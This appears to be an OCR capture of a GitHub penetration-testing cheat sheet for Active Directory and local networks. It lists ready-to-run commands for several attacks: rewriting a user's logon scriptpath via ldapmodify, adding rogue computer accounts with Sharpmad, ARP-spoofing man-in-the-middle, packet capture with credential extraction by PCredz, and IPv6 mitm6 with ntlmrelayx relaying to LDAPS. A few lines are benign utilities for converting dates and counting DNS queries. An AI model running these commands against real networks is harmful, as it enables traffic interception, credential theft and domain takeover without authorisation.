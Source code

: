 Modify the "scriptpath" attribute from a user
```
ldapmodify -H ldap://DC_IP -D "UserWithAccessToModify@lab.local" -W -f ~/LDAPModify_scriptpath.txt
```
LDAPModify_scriptpath.txt content
```
dn: CN=User1,CN=Users,DC=lab,DC=local
changetype: modify
replace: scriptpath
scriptpath: Test2.exe
```
## Powershell oneliners to convert "lastLogonTimeStamp" attribute from AD to YYYY/MM/DD and vice-versa
```
$dateString = "2024/04/01"; $lastLogonTimestampValue = (Get-Date $dateString).ToFileTime(); Write-Output "Converted lastLogonTimestamp value: $lastLogonTimestampValue"
Get-Date ([DateTime]::FromFileTime(133564176000000000)) -Format "yyyy/MM/dd"
```
## Add/Join Computer to Domain
SharpMad / PowerMad
https://github.com/Kevin-Robertson/Sharpmad
```
Sharpmad.exe MAQ -Action new -MachineAccount COMPUTER -MachinePassword PASSWORD
```
## MitM with arpspoof
1- Make sure ip forwarding is activated (1 = activated)
```
sysctl net.ipv4.ip_forward
sysctl -w net.ipv4.ip_forward=1
or
cat /proc/sys/net/ipv4/ip_forward
echo 1 > /proc/sys/net/ipv4/ip_forward
```
2- Run arpspoof with timeout command, if you fail, at least the arpspoof will stop after the timeout delay chosen
```
timeout <#min> arpspoof -i <iface> -c both -t <target_ip> -r <gateway_ip> 
timeout 15 arpspoof -i eth0 -c both -t 192.168.1.100 -r 192.168.1.1
```
## Capture packets with tcpdump and save to file (useful with MitM)
```
tcpdump -s 0 -i eth0 -w output.pcap
```
## Analyze pcap with PCredz
Source: https://github.com/lgandx/PCredz
```
python3 Pcredz -f output.pcap
```
## mitm6
Source : https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/
Source : https://luemmelsec.github.io/Relaying-101/
```
ntlmrelayx.py -ip 10.10.10.10 -wh evilwpad -t ldaps://10.10.10.20
sudo mitm6 -i eth0 -d domain.local
```
## Extract DNS queries from a PCAP and count each occurences
``` 
tshark -nr Your.pcap -T fields -e dns.qry.name |sort |uniq -c
```